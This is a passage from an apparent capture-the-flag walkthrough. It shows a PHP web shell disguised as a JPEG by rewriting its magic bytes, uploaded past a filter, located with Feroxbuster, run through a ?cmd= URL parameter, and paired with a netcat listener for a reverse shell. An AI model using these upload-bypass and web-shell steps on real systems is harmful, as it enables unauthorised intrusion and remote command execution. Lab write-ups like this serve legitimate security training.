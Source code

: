 We can now open the file with hexeditor and change the first 4 characters (1 character = 2 Hex like 2E) to the ones we need as Magic Bytes:

```shell
hexeditor shell.php.jpg
```

And now change the first part:

```shell
# First part before change
2E 2E 2E 2E

# First part after changing it for the Magic Bytes
FF D8 FF EE

# Save the edited file with Ctrl+X
```

Lets try to upload our PHP shell now.

Nice! We got the following message:

```shell
The file shell.php.jpg has been uploaded. 
```

### Finding /images/uploads directory and interacting with PHP shell to get access using busybox nc
Now we can try to guess the path to our uploaded file. I found it to be:

```shell
http://10.129.140.54/images/uploads/shell.php.jpg
```

But we can use Feroxbuster to find it out instead of guessing using the following command:

```shell
feroxbuster -u http://10.129.140.54 -r
```

```shell
http://10.129.140.54/images/uploads/trx.jpg
```

Knowing the location of our PHP shell, we can start a nc listener on Kali and interact with our PHP shell through URL to get a reverse shell:

```shell
nc -lvnp 8443
```

```shell
http://10.129.140.54/images/uploads/shell.php.jpg?cmd=id
```

The command id worked.

We werent lucky using normal bash and nc reverse shells, so lets use busybox (revshells.com and URL encoded):
